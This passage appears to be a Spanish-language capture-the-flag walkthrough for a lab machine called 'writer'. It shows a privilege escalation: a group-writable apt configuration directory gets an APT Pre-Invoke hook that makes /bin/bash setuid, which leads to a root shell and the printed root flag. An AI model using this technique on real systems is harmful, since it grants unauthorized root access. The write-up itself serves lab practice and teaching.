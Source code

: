 - List groups

```bash
john@writer:~$ id
```

```ruby
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

```bash
john@writer:~$ find / -group management 2>/dev/null
```

```ruby
/etc/apt/apt.conf.d
```

> En esta ruta se configura el funcionamiento al usar el comando apt. Si nos fijamos, anteriormente vimos que el usuario root ejecutaba un apt update, sabiendo esto, podemos modificar los archivos para ejecutar algún comando antes de tiempo.

```bash
john@writer:~$ nano /etc/apt/apt.conf.d/test
```

```ruby
APT::Update::Pre-Invoke {"chmod u+s /bin/bash"; };
```

```bash
john@writer:/etc/apt/apt.conf.d$ ls -la /bin/bash
```

```ruby
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

```bash
john@writer:/etc/apt/apt.conf.d$ bash -p
```

```ruby
bash-5.0# cat /root/root.txt 
3163ba867f0a92d4f6e7ff5a2a461ccf
```

